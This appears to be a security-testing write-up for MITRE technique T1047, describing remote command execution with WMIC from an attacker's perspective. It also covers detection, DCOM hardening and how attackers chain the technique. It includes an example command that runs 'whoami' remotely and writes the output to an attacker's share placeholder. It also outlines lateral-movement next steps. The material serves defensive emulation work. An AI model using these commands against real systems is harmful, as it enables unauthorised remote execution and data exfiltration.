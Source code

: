 
# Test remote WMIC access

---

#### Metadata

- *Prelude ID*: 661efd66-d876-41de-88ee-ba9ec4328154
- *MITRE Technique ID*: [T1047](https://attack.mitre.org/techniques/T1047/)

---

### A hacker's perspective

---

Windows Management Interface Command (WMIC) is a powerful "live-off-the-land" binary for interacting with WMI. Knowingthat I am able to execute WMI commands against remote systems tells me several things about my current permissionsand how the target host is configured. I know, first of all, that my user has requisite privileges to execute commandsremotely, which can allow me to move laterally in a number of ways. Secondly, I can make the assumption that remotehosts are Distributed Component Object Model (DCOM) accessible, which lets me know I have a possible execution mechanismon that host.

### Expected output

---

Short response indicated a (Win32_Process)->Create() was successful on the remote system with a return value of 0.

### Basic variations

---

This command can easily be modified for both local and remote discovery. With WMIC, we could also query other WMIclasses like Win32_ComputerSystem or Win32_Share to discover more about the system. It is also possible to execute moreintricate commands to get a response by using a technique like 'process call create "cmd.exe /c whoami >> \\<ATTACKING SYSTEM>\<PUBLIC SHARE>\cmd_response.txt"'.

### Prevent + Detect

---

Capturing PowerShell and command-line input would allow defenders to see calls to the WMIC binary, which might be suspiciousdepending upon the environment. Additionally, consider disabling DCOM access so that WMIC cannot be used to executecode through DCOM remotely. The Windows firewall will block DCOM access by default as well, so review domain GroupPolicy Objects (GPOs) to ensure that Windows firewall is enabled and configured to block inbound DCOM.

### How it is chained

---

An attacker that is testing their ability to execute commands/process on remote systems is almost certainly lookingto move laterally to a new target. Likely next steps would be staging tools on the remote system (T1570) via SMB oranother innocous protocol, then executing the staged payload with WMIC over DCOM (T1021.003) or WinRM (T1021.006).
